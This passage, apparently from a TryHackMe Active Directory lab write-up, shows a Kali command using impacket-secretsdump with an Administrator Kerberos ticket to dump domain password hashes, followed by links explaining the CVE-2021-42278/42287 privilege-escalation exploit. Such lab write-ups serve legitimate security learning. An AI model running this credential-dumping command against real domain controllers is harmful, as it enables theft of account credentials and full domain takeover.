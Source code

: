 	![]({{ page.img_path }}Pasted%20image%2020220219205600.png)
7. Or dump hashes w/ secretsdump
	``` 
	┌──(root💀kali)-[~/tryhackme/attacktivedirect/10.10.184.179/exploit/sam-the-admin]
	└─# KRB5CCNAME='Administrator.ccache' /usr/bin/impacket-secretsdump -target-ip $ip -dc-ip $ip -k -no-pass @AttacktiveDirectory.spookysec.local
	```
	![]({{ page.img_path }}Pasted%20image%2020220219215222.png)
8. Explanation of exploit
	- https://www.fortinet.com/blog/threat-research/cve-2021-42278-cve-2021-42287-from-user-to-domain-admin-60-seconds
	- https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html
